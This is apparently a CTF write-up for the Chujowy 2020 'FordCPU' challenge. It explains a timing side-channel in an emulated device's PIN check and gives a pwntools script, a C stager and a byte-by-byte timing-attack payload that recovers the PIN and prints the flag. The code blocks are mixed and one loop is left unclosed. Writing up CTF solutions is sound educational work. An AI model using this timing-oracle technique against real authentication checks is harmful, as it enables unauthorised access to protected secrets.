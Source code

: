 ```yaml
---
layout: post
title: "[Chujowy 2020] FordCPU - Flag Device"
author: Escher
---
```

For a more detailed version, click [here](https://www.danbrodsky.me/writeups/chujowyctf2020-fordcpu/).

Vulnerability:

on pin check request being received, there is a 255 cycle delay before the bytes of the given pin and correct pin are compared
check exits right away if a different byte is encountered, and device_status is changed to idle on exit
an incorrect byte results in ~6 loop cycles to resolve, while a correct byte takes at least 6 (6 for itself and then it will check the next byte)
the differing amount of time it takes to complete a check relative to the number of correct bytes means we can perform a timing attack
Exploit:

we can use device_status as an oracle to tell us when checking is completed, and a for loop to tell how much time was spent checking
write into start area a stager that writes anything received over main() while a loop stalls the program
write into main a program that loops through every possibility for the next byte in pins until a higher delay is encountered, then saves that byte and iterates to the next 1
eventually all pins are found and we can read the flag
Bash commands:

riscv32-elf-objdump -m riscv -Mintel -D ./stager.elf | less

riscv32-elf-objdump -b binary -m riscv -Mintel -D ./remote.bin | less



```python
from pwn import *

server = open("remote.bin", "rb").read()

stager = open("stager.elf", "rb").read()
payload = open("payload.elf", "rb").read()

# r = process('./Vtop')
r = remote('ford-cpu.chujowyc.tf', 4001)
r.interactive()

r.send(b"ack\n\n\n\n\n")
print(r.clean())
r.send("cmp\n\n\n\n\n")
print(r.clean())
r.send("AAAA\n\n\n\n")
print(r.clean())
r.send("AAAA\n\n\n\n")
print(r.clean())
r.send("AAAA\n\n\n\n")

firmware = server[:0x15a] + stager[0x12e4:0x1330]
r.send(firmware)

r.interactive() # manually cause reset here, then kill this shell

r.send(payload[0x12e4:0x1558])
r.interactive()
// Stager code
REG32(LPT_REG_RX_BUFFER_START) = (int) 0x2e2;
REG32(LPT_REG_RX_BUFFER_END) = (int) 0x2e2 + 800;
REG32(LPT_REG_STATE) = 2 | 1;
int a = 0;
while (1) {
    if (a > 100000)
        break;
    ++a;
}
// Timing attack payload
// get an initial delay value
int longest_delay = 0;

// I'm fucked if the first byte is 169
REG32(FLAG_DEV_PIN_0) = 169;
REG32(FLAG_DEV_CHECK_START) = 1;
// track cycles needed to check pins
while (REG32(FLAG_DEV_DEVICE_STATUS) != 0)
    ++longest_delay;

// set all pins to 0
for (int i = 0; i < 4; ++i) {
    int* addr = (int*) FLAG_DEV_PIN + 4*i;
    *addr = 0;
}

int curr = 0;
// loop for each char in pin (16)
for (int i = 0; i < 4; ++i) {

    curr = 0;
    int* addr = (int*) FLAG_DEV_PIN + i;

    for (int j = 0; j < 4; ++j) {
        // guess the value of pin_bytes[i] (0-255)
        for (int v = 0; v <= 256; ++v) {
            if (v == 256) {
                break;
            }

            int tmp = curr;
            tmp <<= (4-j)*8;
            tmp >>= (4-j)*8;
            tmp += v << j*8;
            *(addr) = tmp;

            int t = 0;
            // start checking
            REG32(FLAG_DEV_CHECK_START) = 1;
            // track cycles needed to check pins
            while (REG32(FLAG_DEV_DEVICE_STATUS) != 0)
                ++t;
            if (t >= longest_delay+5) { // pin delay, byte is correct
                curr = tmp;
                REG32(LPT_REG_STATE) = 2;
                REG32(LPT_REG_TX_BUFFER_START) = (int) &tmp;
                REG32(LPT_REG_TX_BUFFER_END) = (int) &tmp+4;
                longest_delay = t;
                break;
            }
        }
    }
}
// last byte cannot be checked w/ side-channel
for (int v = 0; v < 256; ++v) {
    int tmp = curr;
    tmp <<= 8;
    tmp >>= 8;
    tmp += v << 24;
    *((int*) FLAG_DEV_PIN + 3) = tmp;
    REG32(FLAG_DEV_CHECK_START) = 1;
    while (REG32(FLAG_DEV_DEVICE_STATUS) != 0);
    if (REG32(FLAG_DEV_PIN_STATUS) == 1) {
        REG32(LPT_REG_STATE) = 2;
        REG32(LPT_REG_TX_BUFFER_START) = FLAG_DEV_FLAG_START;
        REG32(LPT_REG_TX_BUFFER_END) = FLAG_DEV_FLAG_START + 0x10;
        break;
    }



# &\x00\x00\x1a\x00\x1a\x00&\x1a0&\x1a0p\x00\x00p\xa2\x00p\xa2\p\xa2\xd2\xe\\xfc\x\xf\xc4\Č\x00Č\x86\x00Č\x86\xfe71m1N9_4774ck_xDresetting...
# 71m1N9_4774ck_xD
```